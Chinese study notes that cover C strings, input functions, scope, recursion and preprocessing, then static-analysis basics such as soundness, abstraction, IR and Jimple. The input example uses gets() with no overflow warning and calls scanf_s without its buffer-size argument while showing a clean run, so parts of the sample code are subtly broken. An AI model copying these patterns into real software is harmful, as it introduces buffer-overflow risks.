

当用字符数组存储字符串时，要特别注意`'\0'`，要为`'\0'`留个位置；这意味着，字符数组的长度至少要比字符串的长度大 1。请看下面的例子：

```
char str[7] = "abc123";
```

`"abc123"`看起来只包含了 6 个字符，我们却将 str 的长度定义为 7，就是为了能够容纳最后的`'\0'`。如果将 str 的长度定义为 6，它就无法容纳`'\0'`了。

> 当字符串长度大于数组长度时，有些较老或者不严格的编译器并不会报错，甚至连警告都没有，这就为以后的错误埋下了伏笔，读者自己要多多注意。

有些时候，程序的逻辑要求我们必须逐个字符地为数组赋值，这个时候就很容易遗忘字符串结束标志`'\0'`。下面的代码中，我们将 26 个大写英文字符存入字符数组，并以字符串的形式输出：

```c
#include <stdio.h>
int main(){
    char str[30];
    char c;
    int i;
    for(c=65,i=0; c<=90; c++,i++){
        str[i] = c;
    }
    printf("%s\n", str);

    return 0;
}
```

在 VS2015 下的运行结果：

ABCDEFGHIJKLMNOPQRSTUVWXYZ口口口口i口口0 ?

`口`表示无法显示的特殊字符。

> 在函数内部定义的变量、数组、结构体、共用体等都称为局部数据。在很多编译器下，局部数据的初始值都是随机的、无意义的，而不是我们通常认为的“零”值。这一点非常重要，大家一定要谨记，否则后面会遇到很多奇葩的错误。

> 本例中的 str 数组在定义完成以后并没有立即初始化，所以它所包含的元素的值都是随机的，只有很小的概率会是“零”值。循环结束以后，str 的前 26 个元素被赋值了，剩下的 4 个元素的值依然是随机的，不知道是什么。

### 字符串长度

所谓字符串长度，就是字符串包含了多少个字符（不包括最后的结束符`'\0'`）。例如`"abc"`的长度是 3，而不是 4。

在C语言中，我们使用`string.h`头文件中的 strlen() 函数来求字符串的长度，它的用法为：

length strlen(strname);

strname 是字符串的名字，或者字符数组的名字；length 是使用 strlen() 后得到的字符串长度，是一个整数。


### 字符串输入输出

**输入**

在C语言中，有两个函数可以让用户从键盘上输入字符串，它们分别是：

- scanf()：通过格式控制符`%s`输入字符串。除了字符串，scanf() 还能输入其他类型的数据。
- gets()：直接输入字符串，并且只能输入字符串。

但是，scanf() 和 gets() 是有区别的：

- scanf() 读取字符串时以空格为分隔，遇到空格就认为当前字符串结束了，所以无法读取含有空格的字符串。
- gets() 认为空格也是字符串的一部分，只有遇到回车键时才认为字符串输入结束，所以，不管输入了多少个空格，只要不按下回车键，对 gets() 来说就是一个完整的字符串。换句话说，gets() 用来读取一整行字符串。

**例子**

```c
#include <stdio.h>
int main() {
    char str1[30] = { 0 };
    char str2[30] = { 0 };
    char str3[30] = { 0 };

    //gets() 用法
    printf("Input a string: ");
    gets(str1);

    //scanf() 用法
    printf("Input a string: ");
    scanf_s("%s", str2);
    scanf_s("%s", str3);

    printf("\nstr1: %s\n", str1);
    printf("str2: %s\n", str2);
    printf("str3: %s\n", str3);

    return 0;
}
```

运行结果：

```
Input a string: C C++ Java Python↙
Input a string: PHP JavaScript↙

str1: C C++ Java Python
str2: PHP
str3: JavaScript
```

第一次输入的字符串被 gets() 全部读取，并存入 str1 中。第二次输入的字符串，前半部分被第一个 scanf() 读取并存入 str2 中，后半部分被第二个 scanf() 读取并存入 str3 中。

> 注意，scanf() 在读取数据时需要的是数据的地址，这一点是恒定不变的，所以对于 int、char、float 等类型的变量都要在前边添加`&`以获取它们的地址。但是在本段代码中，我们只给出了字符串的名字，却没有在前边添加`&`，这是为什么呢？因为**字符串名字或者数组名字在使用的过程中一般都会转换为地址**，所以再添加`&`就是多此一举，甚至会导致错误了。
>
> 就目前学到的知识而言，int、char、float 等类型的变量用于 scanf() 时都要在前面添加`&`，而数组或者字符串用于 scanf() 时不用添加`&`，它们本身就会转换为地址。读者一定要谨记这一点。

#### 其实 scanf() 也可以读取带空格的字符串

以上是 scanf() 和 gets() 的一般用法，很多教材也是这样讲解的，所以大部分初学者都认为 scanf() 不能读取包含空格的字符串，不能替代 gets()。其实不然，scanf() 的用法还可以更加复杂和灵活，它不但可以完全替代 gets() 读取一整行字符串，而且比 gets() 的功能更加强大。比如，以下功能都是 gets() 不具备的：

- scanf() 可以控制读取字符的数目；
- scanf() 可以只读取指定的字符；
- scanf() 可以不读取某些字符；
- scanf() 可以把读取到的字符丢弃。

### C语言字符串处理函数

#### 字符串连接函数 strcat()

strcat 是 string catenate 的缩写，意思是把两个字符串拼接在一起，语法格式为：

```
strcat(arrayName1, arrayName2);
```

arrayName1、arrayName2 为需要拼接的字符串。

> strcat() 将把 arrayName2 连接到 arrayName1 后面，并删除原来 arrayName1 最后的结束标志`'\0'`。这意味着，arrayName1 必须足够长，要能够同时容纳 arrayName1 和 arrayName2，否则会越界（超出范围）。

**strcat() 的返回值为 arrayName1 的地址。**

#### 字符串复制函数 strcpy()

strcpy 是 string copy 的缩写，意思是字符串复制，也即将字符串从一个地方复制到另外一个地方，语法格式为：

```
strcpy(arrayName1, arrayName2);
```

strcpy() 会把 arrayName2 中的字符串拷贝到 arrayName1 中，字符串结束标志`'\0'`也一同拷贝。请看下面的例子：

```c
#include <stdio.h>
#include <string.h>
int main(){
    char str1[50] = "《C语言变怪兽》";
    char str2[50] = "http://c.biancheng.net/cpp/u/jiaocheng/";
    strcpy(str1, str2);
    printf("str1: %s\n", str1);
    return 0;
}
```

运行结果：
str1: http://c.biancheng.net/cpp/u/jiaocheng/

你看，将 str2 复制到 str1 后，str1 中原来的内容就被覆盖了。

另外，strcpy() 要求 arrayName1 要有足够的长度，否则不能全部装入所拷贝的字符串。

#### 字符串比较函数 strcmp()

strcmp 是 string compare 的缩写，意思是字符串比较，语法格式为：

```c
strcmp(arrayName1, arrayName2);
```

arrayName1 和 arrayName2 是需要比较的两个字符串。

字符本身没有大小之分，strcmp() 以各个字符对应的 ASCII 码值进行比较。strcmp() 从两个字符串的第 0 个字符开始比较，如果它们相等，就继续比较下一个字符，直到遇见不同的字符，或者到字符串的末尾。

返回值：若 arrayName1 和 arrayName2 相同，则返回0；若 arrayName1 大于 arrayName2，则返回大于 0 的值；若 arrayName1 小于 arrayName2，则返回小于0 的值。

对4组字符串进行比较：

```c
#include <stdio.h>
#include <string.h>
int main(){
    char a[] = "aBcDeF";
    char b[] = "AbCdEf";
    char c[] = "aacdef";
    char d[] = "aBcDeF";
    printf("a VS b: %d\n", strcmp(a, b));
    printf("a VS c: %d\n", strcmp(a, c));
    printf("a VS d: %d\n", strcmp(a, d));
   
    return 0;
}
```

运行结果：
a VS b: 32
a VS c: -31
a VS d: 0


## C语言函数

### 库函数和自定义函数

C语言在发布时已经为我们封装好了很多函数，它们被分门别类地放到了不同的头文件中（暂时先这样认为），使用函数时引入对应的头文件即可。这些函数都是专家编写的，执行效率极高，并且考虑到了各种边界情况，各位读者请放心使用。

C语言自带的函数称为库函数（Library Function）。库（Library）是编程中的一个基本概念，可以简单地认为它是一系列函数的集合，在磁盘上往往是一个文件夹。C语言自带的库称为标准库（Standard Library），其他公司或个人开发的库称为第三方库（Third-Party Library）。

### C语言全局变量和局部变量

形参变量要等到函数被调用时才分配内存，调用结束后立即释放内存。这说明形参变量的作用域非常有限，只能在函数内部使用，离开该函数就无效了。所谓作用域（Scope），就是变量的有效范围。

不仅对于形参变量，C语言中所有的变量都有自己的作用域。决定变量作用域的是变量的定义位置。

#### 局部变量

定义在函数内部的变量称为**局部变量（Local Variable）**，它的作用域仅限于函数内部， 离开该函数后就是无效的，再使用就会报错。例如：

```c
int f1(int a){
    int b,c;  //a,b,c仅在函数f1()内有效
    return a+b+c;
}
int main(){
    int m,n;  //m,n仅在函数main()内有效
    return 0;
}
```

1) 在 main 函数中定义的变量也是局部变量，只能在 main 函数中使用；同时，main 函数中也不能使用其它函数中定义的变量。main 函数也是一个函数，与其它函数地位平等。

2) 形参变量、在函数体内定义的变量都是局部变量。实参给形参传值的过程也就是给局部变量赋值的过程。

3) 可以在不同的函数中使用相同的变量名，它们表示不同的数据，分配不同的内存，互不干扰，也不会发生混淆。

4) 在语句块中也可定义变量，它的作用域只限于当前语句块。

#### 全局变量

在所有函数外部定义的变量称为**全局变量（Global Variable）**，它的作用域默认是整个程序，也就是所有的源文件，包括 .c 和 .h 文件。例如：

```c
int a, b;  //全局变量
void func1(){
    //TODO:
}
float x,y;  //全局变量
int func2(){
    //TODO:
}
int main(){
    //TODO:
    return 0;
}
```

a、b、x、y 都是在函数外部定义的全局变量。C语言代码是从前往后依次执行的，由于 x、y 定义在函数 func1() 之后，所以在 func1() 内无效；而 a、b 定义在源程序的开头，所以在 func1()、func2() 和 main() 内都有效。

### 作用域

所谓**作用域（Scope）**，就是变量的有效范围，就是变量可以在哪个范围以内使用。有些变量可以在所有代码文件中使用，有些变量只能在当前的文件中使用，有些变量只能在函数内部使用，有些变量只能在 [for 循环](https://c.biancheng.net/view/172.html)内部使用。

变量的作用域由变量的定义位置决定，在不同位置定义的变量，它的作用域是不一样的。

> 全局变量的默认作用域是整个程序，也就是所有的代码文件，包括源文件（`.c`文件）和头文件（`.h`文件）。如果给全局变量加上 **static** 关键字，它的作用域就变成了当前文件，在其它文件中就无效了。

**重点：**

**在一个函数内部修改全局变量的值会影响其它函数，全局变量的值在函数内部被修改后并不会自动恢复，它会一直保留该值，直到下次被修改。**


可以看到两个变量a的地址是不一样的。

全局变量也是变量，变量只能保存一份数据，一旦数据被修改了，原来的数据就被冲刷掉了，再也无法恢复了，所以不管是全局变量还是局部变量，一旦它的值被修改，这种影响都会一直持续下去，直到再次被修改。

#### 变量命名

C语言规定，在同一个作用域中不能出现两个名字相同的变量，否则会产生命名冲突；但是在不同的作用域中，允许出现名字相同的变量，它们的作用范围不同，彼此之间不会产生冲突。这句话有两层含义：

- 不同函数内部可以出现同名的变量，不同函数是不同的局部作用域；
- 函数内部和外部可以出现同名的变量，函数内部是局部作用域，函数外部是全局作用域。

### 块级变量

所谓代码块，就是由`{ }`包围起来的代码。代码块在C语言中随处可见，例如函数体、选择结构、循环结构等。

C语言允许在代码块内部定义变量，这样的变量具有块级作用域；换句话说，在代码块内部定义的变量只能在代码块内部使用，出了代码块就无效了。

#### for循环内定义变量

在 for 循环条件里面定义新变量，这样的变量也是块级变量，它的作用域仅限于 for 循环内部。

如果一个变量只在 for 循环内部使用，就可以将它定义在循环条件里面，这样做可以避免在函数开头定义过多的变量，使得代码结构更加清晰。

#### 单独的代码块

C语言还允许出现单独的代码块，它也是一个作用域。请看下面的代码：

```c
#include <stdio.h>
int main(){
    int n = 22;  //编号①
    //由{ }包围的代码块
    {
        int n = 40;  //编号②
        printf("block n: %d\n", n);
    }
    printf("main n: %d\n", n);
   
    return 0;
}
```

这里有两个 n，它们位于不同的作用域，不会产生命名冲突。{ } 的作用域比 main() 更小，{ } 内部的 printf() 使用的是编号为②的 n，main() 内部的 printf() 使用的是编号为①的 n。

#### 再谈作用域

每个C语言程序都包含了多个作用域，不同的作用域中可以出现同名的变量，C语言会按照从小到大的顺序、一层一层地去父级作用域中查找变量，如果在最顶层的全局作用域中还未找到这个变量，那么就会报错。

```c
#include <stdio.h>

int m = 13;
int n = 10;

void func1(){
    int n = 20;
    {
        int n = 822;
        printf("block1 n: %d\n", n);
    }
    printf("func1 n: %d\n", n);
}

void func2(int n){
    for(int i=0; i<10; i++){
        if(i % 5 == 0){
            printf("if m: %d\n", m);
        }else{
            int n = i % 4;
            if(n<2 && n>0){
                printf("else m: %d\n", m);
            }
        }
    }
    printf("func2 n: %d\n", n);
}

void func3(){
    printf("func3 n: %d\n", n);
}

int main(){
    int n = 30;
    func1();
    func2(n);
    func3();
    printf("main n: %d\n", n);
   
    return 0;
}
```

作用域示意图如下：


### 递归函数

一个函数在它的函数体内调用它自身称为**递归调用**，这种函数称为**递归函数**。执行递归函数将反复调用其自身，每调用一次就进入新的一层，当最内层的函数执行完毕后，再一层一层地由里到外退出。

#### 求阶乘


```c
#include <stdio.h>
//求n的阶乘
long factorial(int n) {
    if (n == 0 || n == 1) {
        return 1;
    }
    else {
        return factorial(n - 1) * n;  // 递归调用
    }
}
int main() {
    int a;
    printf("Input a number: ");
    scanf("%d", &a);
    printf("Factorial(%d) = %ld\n", a, factorial(a));
    return 0;
}
```

factorial() 就是一个典型的递归函数。调用 factorial() 后即进入函数体，只有当 n==0 或 n==1 时函数才会执行结束，否则就一直调用它自身。

由于每次调用的实参为 n-1，即把 n-1 的值赋给形参 n，所以每次递归实参的值都减 1，直到最后 n-1 的值为 1 时再作递归调用，形参 n 的值也为1，递归就终止了，会逐层退出。

要想理解递归函数，重点是理解它是如何逐层进入，又是如何逐层退出的，下面我们以 5! 为例进行讲解。

##### 递归的进入

1. 首先输入5，此时n不等于0或1，进入else分支后return了一个自身n-1，此时进入到factorial(4)，必须先调用 factorial(4)，并暂停其他操作。换句话说，在得到 factorial(4) 的结果之前，不能进行其他操作。这就是第一次递归。
2. 继续进入else分支，直到第五次，factorial(1)时n的值为1，此时直接return 1，结束递归


##### 递归的退出

1. n 的值为 1 时达到最内层，此时 return 出去的结果为 1，也即 factorial(1) 的调用结果为 1。
2. 有了 factorial(1) 的结果，就可以返回上一层计算`factorial(1) * 2`的值了。此时得到的值为 2，return 出去的结果也为 2，也即 factorial(2) 的调用结果为 2。
3. 以此类推，当得到 factorial(4) 的调用结果后，就可以返回最顶层。经计算，factorial(4) 的结果为 24，那么表达式`factorial(4) * 5`的结果为 120，此时 return 得到的结果也为 120，也即 factorial(5) 的调用结果为 120，这样就得到了 5! 的值。


#### 递归的条件

每一个递归函数都应该只进行有限次的递归调用，否则它就会进入死胡同，永远也不能退出了，这样的程序是没有意义的。

要想让递归函数逐层进入再逐层退出，需要解决两个方面的问题：

- 存在限制条件，当符合这个条件时递归便不再继续。对于 factorial()，当形参 n 等于 0 或 1 时，递归就结束了。
- 每次递归调用之后越来越接近这个限制条件。对于 factorial()，每次递归调用的实参为 n - 1，这会使得形参 n 的值逐渐减小，越来越趋近于 1 或 0。

## C语言预处理命令

### 预处理命令是什么

使用库函数之前，应该用`#include`引入对应的头文件。这种以`#`号开头的命令称为预处理命令。

C语言源文件要经过编译、链接才能生成可执行程序：

1) 编译（Compile）会将源文件（`.c`文件）转换为目标文件。对于 VC/VS，目标文件后缀为`.obj`；对于[GCC](https://c.biancheng.net/gcc/)，目标文件后缀为`.o`。

> 编译是针对单个源文件的，一次编译操作只能编译一个源文件，如果程序中有多个源文件，就需要多次编译操作。

2) 链接（Link）是针对多个文件的，它会将编译生成的多个目标文件以及系统中的库、组件等合并成一个可执行程序。

在编译之前对源文件进行简单加工的过程，就称为**预处理**（即预先处理、提前处理）。

预处理主要是处理以`#`开头的命令，例如`#include <stdio.h>`等。预处理命令要放在所有函数之外，而且一般都放在源文件的前面。


# 软件分析

## Introduce

### 可靠性的必要性（soundness）


如果只考虑B路径是sound，但是需要考虑B、C两条路径（B强转B没问题但如果走了路径C，C强转B就会报错）

```java
//说明B和C是A的接口子类，a是A的一个实例
B b = new B();         C c = new C();
a.fld = b;              a.fld = c;
    \                      /
     \                    /
      \                  /
        B b2 = (B)a.fld;
```

我们想知道第7行的cast（类型转换）是否safe：

- Unsound ：只考虑单一的路径，如果只考虑左边路径，是没问题的，但是如果只考虑右边的路径，会产生运行时异常。
- Sound（全面考虑）：对于所有可能的路径都进行考虑。

所有的静态分析都是在追求Sound，可以牺牲精度。

### 静态分析

```java
if(input)
{
  x = 1;
}
eles
{
  x = 0;
}
-> x = ?
```

静态分析可以得到两种结论：

1. input为真时，x为1；input为假时，x为0. 【Sound，precise，expensive（慢）】
2. x为1或0 【Sound，imprecise，cheap（快）】

上述两种结论都已经跑完了所有的路径了，所以可以认为是Sound的。

**在静态分析中还有一种看法是：可以认为Sound的就是正确的。**

譬如，如果我们说x=0，1，2，3，4，5。这显然对于x的值有错误，但是对于真正的值0和1都包含在内了，根据Sound的定义，我们可以说这个结论是Sound的，也就是这个结论在静态分析的角度来说是正确的。

如果说x = -1，1，2，3，4。 虽然只和上面的结论相差一个0，但是0是我们在某一路径下的情况，所以并没有包含真正的值，这就不是Sound的，对于静态分析而言，这也就不是正确的。

### Static Analysis = Abstraction + Overapproximation

#### 抽象（Abstraction）

Determine the sign（+ - 0 top bottom ）of all the variables of a given program.

正数就是+， 负数就是-，零就是0， 不确定是什么就是top（unknown），错误就是bottom（undefined）

抽象就是将Concrete Domain中的值向Abstract Domain做一个映射


#### Overapproximate：Transfer Function（过度近似：函数转化）

转换函数定义了如何计算抽象值，它是被我们分析的问题和语义共同定义的。

这些运算法则在一定程度上遵循了数学中的法则：如负负得正、负正为负，但也会有一些不同

正数和负数相加为top（unknown），除以0为bottom（undefined）




其中①是除0报错，②是负数索引报错，都是有用的，但是③中a可正可负，有可能正常有可能负索引报错，可能为误报

#### Overapproximate：Control Flow（控制流）


对于分支的汇聚的点，都要进行merge（合并），进行抽象。

无法枚举所有的分支，所以flow- merging被使用在大多数的静态分析中 。

## Intermediate Representation（IR）

### Compiler（编译器）


```
源码 -> Scanner(词法分析) -> Tokens -> Parser(语法分析) -> AST -> Type Checker(语义分析) -> Decorated AST -> Translator(后续优化) -> IR{静态分析} -> Code Generator -> Machine Code
```

### AST vs. IR


**AST**：

- 高级语法结构
- 通常依赖于语言
- 适用于快速类型检查
- 缺乏控制流信息

**IR**：

- 低级且接近机器代码
- 通常与语言无关
- 紧凑均匀
- 包含控制流信息
- 通常被视为静态分析的基础

### 3-Address Code（3AC）


指令的右侧最多有一个运算符。

3地址可以是以下三种地址之一：

- Name（变量）
- Constant（常量）
- Compiler-generated remporary（编译器自动生成的临时变量）

### 常见的3AC表


- x, y, z：地址值
- bop：二元运算符
- uop：一元运算符（取反等）
- L：程序跳转标签
- rop：比较符号
- goto L：无条件跳转
- if ... goto L：条件跳转

### Soot and Its IR：Jimple

#### For Loop


#### Do-While Loop


- r0：命令行参数
- r1：整型数组
- i1：变量i
- $i0：用于记录变量i值的临时变量

#### Method Call



- 首先前三行声明了一些变量和类型
- 将当前类所在的对象赋值给了r0（也就是this）
- r1和r2分别拿到para1和para2的值
- new了一个StringBuilder对象r3作为String处理的临时变量（java的语法特性）
- specialinvoke：调用constructor、调用父类的方法、调用私有方法
- 然后通过三个append处理了三个字符串，toString转成字符串，然后return
